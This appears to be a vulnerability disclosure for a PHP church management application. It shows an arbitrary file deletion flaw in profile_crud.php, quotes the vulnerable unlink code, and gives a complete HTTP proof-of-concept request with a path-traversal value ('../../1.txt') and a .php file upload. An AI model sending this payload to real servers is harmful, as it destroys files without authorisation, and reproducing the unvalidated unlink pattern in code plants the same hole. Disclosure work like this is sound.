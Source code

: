 ### Vulnerability file address

In line 31 of `church/admin/app/profile_crud.php`, `@unlink("../../assets/images/" . $_POST['old_cat_img']);`,` $_POST['old_cat_img']` parameters have not been restricted, which causes any file to be deleted

```php
<?php
session_start();
include '../../assets/constant/config.php';
error_reporting(0);
try {
	$conn = new PDO("mysql:host=$servername;dbname=$dbname", $username, $password);
	$conn->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
} catch (PDOException $e) {
	echo "Connection failed: " . $e->getMessage();
}
if (isset($_POST['update'])) {

	$uploadDir = '../../assets/images/';
	if ($_FILES['image']['tmp_name'] != '') {
		$filepath = "../../assets/images/" . $_FILES["image"]["name"];
		$originalName = basename($_FILES['image']['name']);
		$extension = pathinfo($originalName, PATHINFO_EXTENSION);

		// Generate a new unique file name
		$newName = uniqid() . '.' . $extension;

		// Set the path to the new file location
		$newFilePath = $uploadDir . $newName;

		// Upload the file to the server


		if (move_uploaded_file($_FILES["image"]["tmp_name"], $filepath)) {
			$img = $_FILES["image"]["name"];

			@unlink("../../assets/images/" . $_POST['old_cat_img']);
		}
	} 
```

### POC

```http
POST /church/admin/app/profile_crud.php HTTP/1.1
Host: www.church.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=kecn6qqrggjnvlpgliqeq951j0
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Length: 362

------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="update"

1
------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="old_cat_img"

../../1.txt
------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="image";filename="8881.php"

123
------WebKitFormBoundaryTZGvWJmfBtMK9O8p--

```

### Attack results pictures

First, we create a `1.txt` file in the `church/` directory

![image-20250221162221120](/Users/xianyu123/Library/Application%20Support/typora-user-images/image-20250221162221120.png)



Then we execute the above poc to attack

![image-20250221162404923](https://raw.githubusercontent.com/nixuchuan/imgs/main/202502211624970.png)



Files are deleted after the attack is successful

![image-20250221162415917](https://raw.githubusercontent.com/nixuchuan/imgs/main/202502211624958.png)